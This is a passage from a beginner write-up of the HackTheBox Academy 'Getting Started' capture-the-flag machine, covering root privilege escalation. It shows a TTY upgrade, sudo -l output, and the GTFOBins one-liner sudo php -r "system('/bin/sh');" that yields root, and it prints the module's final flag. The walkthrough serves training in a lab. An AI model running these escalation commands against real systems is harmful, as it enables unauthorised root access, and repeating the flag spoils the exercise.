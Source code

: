 Now , let's move on to to escalating privileges to the root user.## Escalating Privileges - Becoming the root User
Now that we've got a foothold on the machine through a reverse shell, we are asked to escalate privleges to the root user and submit the flag of **root.txt**.

Now would probably be a good time for us to upgrade our terminal to a nicer TTY terminal to get some of the good ol' Linux functionality. We can do this by running the following command.

`> python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, let's run the following commands to check what `sudo` privileges we have.

` > sudo -l`

```bash
Matching Defaults entries for www-data on gettingstarted:                                                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                 
                                                                                                                                                      
User www-data may run the following commands on gettingstarted:                                                                                       
    (ALL : ALL) NOPASSWD: /usr/bin/php
```
From the output, we are told that we can run all commands using the `php` binary as sudo without a password. 

When we have misconfigured sudo privileges within the user binaries, we can easily refer to [GTFOBins](https://gtfobins.github.io) for the command needed to escalate to the root user. If we search "php" on GTFOBins and click on `SUDO`, the command given should look like this.

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```
To avoid any complications with declaring environmental variables, we'll use the following command as a substitute.

 `> sudo php -r "system('/bin/sh');"`

So let's test if we escalated privileges with a simple `whoami` query.

```bash
> whoami
root
```
Voila! We are now **root**. Let's run the `find` command we used earlier to find the contents of the **root.txt** file. 

```bash
> find / -iname root.txt 2>/dev/null
/root/root.txt
> cd /root
> ls
root.txt
> cat root.txt
f1fba6e9f71efb2630e6e34da6387842
```
Congratulations, the final flag is ==f1fba6e9f71efb2630e6e34da6387842==. You have officially completed the module!
##Final Thoughts
The machine from the Getting Started module in HackTheBox Academy is a great first CTF for any beginner. I would recommend some basic knowledge of linux and tool usage , but the module does a great job in going over some of the skills and then letting the user try to pwn the machine on their own. If you would like to try the module yourself, here is the [link](https://academy.hackthebox.com/course/preview/getting-started).

**Have fun and happy hacking!**
